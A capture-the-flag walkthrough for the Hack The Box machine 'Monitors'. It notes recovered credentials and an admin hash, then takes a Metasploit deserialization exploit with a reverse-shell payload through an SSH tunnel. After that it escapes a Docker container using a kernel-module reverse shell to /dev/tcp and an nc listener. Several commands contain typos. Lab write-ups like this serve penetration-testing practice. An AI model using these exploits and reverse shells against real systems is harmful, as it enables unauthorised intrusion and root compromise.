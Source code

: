 # Monitors
IP: 10.10.10.238


https://0xdedinfosec.github.io/posts/htb-monitors/

username/pass
marcus 
VerticalEdge2020


## root 

First we start as always with sudo -l, but no luck this time. 
Next is lets see if any service is running on the machine. 

````bash
netsatat -antp
````

It allows me to all network connection and the process behind them. I see there a service running on port 8443 which is commonly used for webservice.
It look like curl is not installed on the machine. Mening we have to get the access to it from our hosts machine. 
Let create a bidirectional ssh tunnel 
from the hostmachine
````bash
ssh -l <localport>:localhost:<forenport> hostname
ssh -l 8443:127.0.0.1:8443 marcus@monitor.htb
````

Go to https://127.0.0.1:8443 and you will be presented with a apache tomcat server version 9.0.31

https://www.rapid7.com/db/modules/exploit/linux/http/apache_ofbiz_deserialization/ 

````bash 
msfconsole -q 
use exploit/linux/http/apache\_ofbiz\_deserialization
set payload linux/x64/shell/reverse_tcp 
set rhosts 127.0.0.1
set lhost 10.10.14.200
set lport 8001
set forceexploit true
run
```` 

and we got acess, but inside a docker container... 
privileged container check 
````bash
ip link add dummy0 type dummy
````
And it a fail meaning we do not have a priv container.

Let's check the `ip` of `docker0` interface inside marcus `ssh` shell.

````bash
ip a
````


rev-shell.c
````bash
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.1/9874 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
````




makefile
````bash
obj-m +=rev-shell.o
all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
````

On the marcus shell start a listner 

````bash
nc -lvnp 9874
````

inside the docker container
transfer the two file 
````bash
make clean
make all 
insmod rev-shell-ko
````

and we got root.

admin hash : 
vSJnzptH$pCoAuyngEc2pUm3Hos6qTNzopXdvnXACaAZEDAQU4VoBc19qxa9eASxv/EKnkTEOWWGyuPobtS/QA2kAFkrWP0